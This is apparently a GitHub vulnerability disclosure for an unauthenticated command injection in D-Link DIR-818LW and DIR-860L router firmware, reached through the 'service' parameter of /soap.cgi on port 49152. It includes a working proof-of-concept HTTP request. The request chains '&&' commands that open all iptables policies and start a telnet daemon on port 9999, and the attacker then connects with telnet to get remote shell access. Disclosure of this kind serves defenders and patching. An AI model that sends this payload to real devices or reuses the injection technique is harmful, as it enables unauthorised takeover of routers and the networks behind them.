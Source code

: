 # D-Link Unauthenticated OS Command Injection

**Vender**: D-Link

**Firmware version**:
DIR-818LW_REVA - 2.05.B03,
DIR-860L_REVB - 2.03.B03

**Exploit Author**: pr0v3rbs@kaist.ac.kr

**Vendor Homepage**: http://us.dlink.com/

**Hardware Link**:
https://support.dlink.com/ProductInfo.aspx?m=DIR-818LW,
https://support.dlink.com/ProductInfo.aspx?m=DIR-860L

## The detail of vulnerability ##

I found unauthenticated remote code execution vulnerability in `soapcgi_main` function of `cgibin` binary.

On the `/soap.cgi` HTTP POST message on `49152` port, with the `service` GET parameter, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with [CVE-2018-6530](https://github.com/TheBeeMan/Pwning-multiple-dlink-router-via-SOAP-proto#0x04-details---lan---revab---command-injection-in-soap-controltype-url-interface), and some firmware was already added character sanitizing with `strchr` function.

However, on the firmware DIR-818LW_REVA_PATCH_2.05.B03, DIR-860L_REVB_2.03.B03; they not fully filtered the vulnerable character.

![](JEB.png)

With `&&` string, the device can be exploited, too.

## PoC

```
# nc 192.168.0.1 49152
POST /soap.cgi?service=&&iptables -P INPUT ACCEPT&&iptables -P FORWARD ACCEPT&&iptables -P OUTPUT ACCEPT&&iptables -t nat -P PREROUTING ACCEPT&&iptables -t nat -P OUTPUT ACCEPT&&iptables -t nat -P POSTROUTING ACCEPT&&telnetd -p 9999&& HTTP/1.1
Host: 192.168.0.1:49152
Accept-Encoding: identity
Content-Length: 16
SOAPAction: "whatever-serviceType#whatever-action"
Content-Type: text/xml

# telnet 192.168.0.1 9999
```

